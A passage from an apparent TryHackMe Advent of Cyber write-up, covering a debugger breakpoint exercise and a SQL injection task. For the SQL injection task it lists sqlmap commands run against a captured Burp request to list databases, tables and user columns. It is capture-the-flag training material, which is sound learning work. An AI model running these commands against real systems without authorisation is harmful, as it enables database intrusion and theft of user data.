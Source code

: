 ![day22-2](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day22-2.png)

To double check that breakpoint has been set we will check the main function again

![day22-3](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day22-3.png)

lets run the program and we will hit the execution

![day22-4](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day22-4.png) 

#### 1. what is the value of local_8h before the end of the main function?

after hitting the breakpoint, we will check the content of local_8h

![day22-5](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day22-5.png)

#### 2. what is the value of local_4h before the end of the main function?

We will check the content of local_4h

![day22-6](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day22-6.png)

## day 23 : LapLANd (Sql Injection)

we will use burpsuite and sqlmap for this task
capture the request in burpsuite and save it as request.txt so that we can use it in sqlmap
![day23-1](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day23-1.png)
![day23-2](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day23-2.png)
#### Which field is SQL injectable? Use the input name used in the HTML code.

```bash
sqlmap -r path/to/request.txt --dbs
```
![day23-3](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day23-3.png)

#### What is Santa Claus' email address?

now that we have database lets enumerate it
```bash
sqlmap -r request.txt -D social --tables --batch
```
![day23-4](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day23-4.png)

lets further enumerate users

```bash
sqlmap -r request.txt -D social -T users --column --batch
```
